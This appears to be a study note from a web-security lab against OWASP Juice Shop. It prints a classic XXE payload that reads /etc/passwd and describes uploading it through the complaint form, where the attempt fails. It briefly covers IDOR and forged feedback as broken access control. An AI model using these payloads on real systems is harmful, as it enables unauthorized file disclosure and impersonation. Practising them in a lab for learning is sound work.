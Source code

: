 with this thought process we could use forward slashes and extract a file from inside the entity

**Payloads**
Link: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection


- Classic XXE
    <?xml version="1.0" encoding="ISO-8859-1"?>
      <!DOCTYPE foo [  
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

 *using SYSTEM as an entity we can have it result in parser is external and to store content into it. When foo is called it calls the* `*/etc/passwd*`
 
 
 
**Attacking XXE**
save the payload locally as `test.xml`

    <?xml version="1.0" encoding="ISO-8859-1"?>
      <!DOCTYPE foo [  
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>


- Create a new user on Juiceshop

![](https://paper-attachments.dropbox.com/s_47ABE09D1CB9E70832B547DB1A053F40CF14ED5D2061471E0EA66D4646A23675_1578068540749_image.png)

- login to account - navigate to `/#/complain` to which we will take adavange of the “Browse” upload feature and upload the `test.xml` + capture request

![](https://paper-attachments.dropbox.com/s_47ABE09D1CB9E70832B547DB1A053F40CF14ED5D2061471E0EA66D4646A23675_1578115137001_image.png)

*should the xxe had been successful in our repsonse window we would see a print out of the* `*/etc/passwd*` to which in this case we do not.

![](https://paper-attachments.dropbox.com/s_47ABE09D1CB9E70832B547DB1A053F40CF14ED5D2061471E0EA66D4646A23675_1578116064147_image.png)


**Mitigating XXE**

- Disable xml entities (DTEs)



## Broken Access Control
- If there was an `/admin` panel when normal user should not have access too.
- changeing `?=5` to `?=6` and return another accounts information -  Insecure Direct Object Reference (IDOR)

OWASP Link: https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control


**Attacking** **Broken Access - Juiceshop**

- adding information from another user.

Forged Feedback: Post some feedback in another users name.

